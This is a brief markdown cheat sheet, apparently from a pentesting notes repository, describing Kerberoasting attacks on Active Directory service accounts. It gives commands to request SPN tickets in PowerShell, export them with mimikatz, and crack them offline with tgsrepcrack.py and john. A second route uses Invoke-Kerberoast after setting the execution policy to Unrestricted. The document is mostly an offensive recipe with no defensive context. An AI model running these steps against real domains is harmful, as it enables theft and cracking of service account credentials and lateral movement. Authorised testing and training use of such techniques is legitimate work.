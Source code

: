 # Service Account Attacks

In Kerberos procotol, when a user wants to access a resource hosted by a SPN, the user requests a ticket (encrypted with the SPN password) from the DC. The DC doesn't perform any type of check that this user have access to that service, so we can crack the password.

## Request & Crack the TGS: Using mimikatz

Request the SPN ticket by executing the following command:

```bash
Add-Type -AssemblyName System.IdentityModel

#Change $SPNNAME with the SPN we want to attack
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList '$SPNNAME'
```

Use klist to display all cached kerberos tickets from the current user:

```bash
klist
```

Export tickets using mimikatz:

```bash
kerberos::list /export
```

Crack it using kerberoast or john:

```bash
python /usr/share/kerberoas/tgsrepcrack.py wordlist.txt $TGS.kirbi

#Use first kirb2john so john can crack the file.
john --format=krb5tgs --wordlist=$WORDLIST $FILE
```

_____

## Request & Crack the TGS: Using Invoke-Kerberoast 

This script extends this attack and can automatically enumerate all SPN in the domain, request TGS and export them in john format:


Enable execution scripts:

```bash
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

Import module and execute the script:

```bash
Import-Module .\Invoke-Kerberoast.ps1

Invoke-Kerberoast -Domain $DOMAIN -OutputFormat John
```

Save the output in a text file and crack it using john.
